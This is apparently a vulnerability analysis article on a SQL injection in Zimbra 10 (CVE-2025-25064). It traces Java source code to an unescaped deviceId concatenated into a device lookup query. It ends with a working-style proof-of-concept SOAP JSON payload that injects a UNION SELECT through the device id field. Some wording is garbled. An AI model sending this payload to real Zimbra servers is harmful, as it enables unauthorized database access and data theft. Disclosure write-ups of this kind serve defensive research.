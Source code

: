 ### 1.  Title
Zimbra 10 SQL Injection (CVE-2025-25064) Analysis Article

### 2. Product version
tested on Zimbra 10

### 3.  Root Cause
```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/ZimbraSyncService.java
package com.zimbra.zimbrasync.service;

import com.zimbra.common.soap.SyncConstants;
import com.zimbra.soap.DocumentDispatcher;
import com.zimbra.soap.DocumentService;

public class ZimbraSyncService implements DocumentService {
    public void registerHandlers(DocumentDispatcher dispatcher) {
        dispatcher.registerHandler(SyncConstants.ALLOW_DEVICE_REQUEST, new AllowDevice());
        dispatcher.registerHandler(SyncConstants.BLOCK_DEVICE_REQUEST, new BlockDevice());
        dispatcher.registerHandler(SyncConstants.GET_DEVICE_STATUS_REQUEST, new GetDeviceStatus());
        dispatcher.registerHandler(SyncConstants.REMOVE_DEVICE_REQUEST, new RemoveDevice());
        dispatcher.registerHandler(SyncConstants.SUSPEND_DEVICE_REQUEST, new SuspendDevice());
        dispatcher.registerHandler(SyncConstants.QUARANTINE_DEVICE_REQUEST, new QuarantineDevice());
        dispatcher.registerHandler(SyncConstants.RESUME_DEVICE_REQUEST, new ResumeDevice());
        dispatcher.registerHandler(SyncConstants.REMOTE_WIPE_REQUEST, new RemoteWipe());
        dispatcher.registerHandler(SyncConstants.CANCEL_PENDING_REMOTE_WIPE_REQUEST, new CancelPendingRemoteWipe());
        dispatcher.registerHandler(SyncConstants.ACCOUNT_ONLY_REMOTE_WIPE_REQUEST, new AccountOnlyRemoteWipe());
        dispatcher.registerHandler(SyncConstants.CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_REQUEST, new CancelPendingAccountOnlyRemoteWipe()); // [0]
    }
}
```
If you see the `[0]`, register the endpoint using the `CancelPendingAccountOnlyRemoteWipe` Wool registerHandler method.

```java
public static final String E_CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_REQUEST = "CancelPendingAccountOnlyRemoteWipeRequest"; // [1]
```

If you look at `[1]` you can see that url mapped to the registered endpoint is `/CancelPendingAccountOnlyRemoteWipeRequest`.

```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/CancelPendingAccountOnlyRemoteWipe.java
package com.zimbra.zimbrasync.service;

import com.zimbra.common.service.ServiceException;
import com.zimbra.common.soap.Element;
import com.zimbra.common.soap.SyncConstants;
import com.zimbra.cs.account.Account;
import com.zimbra.cs.mailbox.MailboxManager;
import com.zimbra.soap.DocumentHandler;
import com.zimbra.soap.ZimbraSoapContext;
import com.zimbra.zimbrasync.Device;
import com.zimbra.zimbrasync.util.SyncUtil;
import java.util.Map;

public class CancelPendingAccountOnlyRemoteWipe extends DocumentHandler {
    public Element handle(Element request, Map<String, Object> context) throws ServiceException {
        ZimbraSoapContext zsc = getZimbraSoapContext(context);
        Account account = getRequestedAccount(zsc);
        if (!canAccessAccount(zsc, account)) {
            throw ServiceException.PERM_DENIED("can not access account");
        }
        String deviceId = request.getElement("device").getAttribute("id"); // [2]
        Device device = Device.getDevice(Integer.valueOf(MailboxManager.getInstance().getMailboxByAccount(account).getId()), deviceId); // [3]
        if (SyncUtil.isUserSyncActionAllowed("CancelPendingAccountOnlyRemoteWipeRequest", device.getStatus(), device.getLastUpdatedBy())) {
            device.cancelPendingAccountOnlyRemoteWipe("User");
            Element response = zsc.createElement(SyncConstants.CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_RESPONSE);
            GetDeviceStatus.encodeDeviceStatus(response, device);
            return response;
        }
        throw ServiceException.PERM_DENIED("You don't have permission to cancel pending account only wipe");
    }
}
```

If you look at [2], define the variable `deviceId` using your input and use it to call the method `Device.getDevice` if you look at [3].

```java
public static Device getDevice(Integer mailboxId, String deviceId) throws ServiceException {
    List<Device> devices = getDevices(mailboxId, deviceId, null, true); //[4]
    if (devices.size() == 0) {
        throw ZimbraSyncServiceException.NO_SUCH_DEVICE();
    }
    if ($assertionsDisabled || devices.size() == STATUS_OK) {
        return devices.get(STATUS_POLICY_NEEDPROV);
    }
    throw new AssertionError();
}
```

If you look at `[4]`, again the `getDevices` method is called, and there is no verification of the user input value `deviceId` variable.

```java
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/CancelPendingAccountOnlyRemoteWipe.java
public static List<Device> getDevices(Integer mailboxId, String deviceId, Byte status, Boolean incluedeDeletedByUser, int offset, int limit, String deviceName, String deviceType, String deviceLastUsed, String deviceSyncVersion, Boolean filterDevicesByAnd, Boolean includeMatchingDevices) throws ServiceException {
    List<Device> devices = new ArrayList<>();
    DbPool.DbConnection conn = STATUS_POLICY_NEEDPROV;
    PreparedStatement stmt = STATUS_POLICY_NEEDPROV;
    ResultSet rs = STATUS_POLICY_NEEDPROV;
    String queryAppendString = filterDevicesByAnd.booleanValue() ? " AND" : " OR";
    Boolean isQueryBeingCreated = false;
    StringBuilder query = new StringBuilder();
    query.append("SELECT device_id, device_type, user_agent, protocol_version, provisionable, status, policy_key, recovery_password, first_req_received, last_policy_update, remote_wipe_req, remote_wipe_ack, policy_values, last_used_date, deleted_by_user, model, imei, friendly_name, os, os_language, phone_number, unapproved_appl_list, approved_appl_list, mailbox_id, mobile_operator, last_updated_by, update_time FROM mobile_devices");
    if (mailboxId != null && mailboxId.intValue() > 0) {
        query.append(" WHERE");
        query.append(" mailbox_id = ?");
        isQueryBeingCreated = true;
    }
    if (!StringUtil.isNullOrEmpty(deviceId)) {
        if (isQueryBeingCreated.booleanValue()) {
            query.append(queryAppendString);
        } else {
            query.append(" WHERE");
            isQueryBeingCreated = true;
        }
        if (includeMatchingDevices.booleanValue()) {
            Pattern pattern = Pattern.compile("(?<!\\.)\\*");
            Matcher matcher = pattern.matcher(deviceId);
            query.append(" device_id").append(" REGEXP '^" + matcher.replaceAll(".*") + "$'");
        } else {
            query.append(" device_id = '" + deviceId + "'"); // [5]
        }
    }
```

If you look at [5], there is no verification of variable `deviceId` and no escape is made, and it is added to the query variable SQL Injection is possible.

### 4. POC

By sending a request to the endpoint that uses getDevice with the following payload, an SQL injection is triggered.
`{"Body":{"CancelPendingAccountOnlyRemoteWipeRequest":{"_jsns":"urn:zimbraSync","device":{"id":"aaaa\'union select 111,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,18,20,21,22,23,24,25,26,111}}}}`


This article was written in collaboration with NGA Thank you

PS. We actually found this a long time ago but did not report it
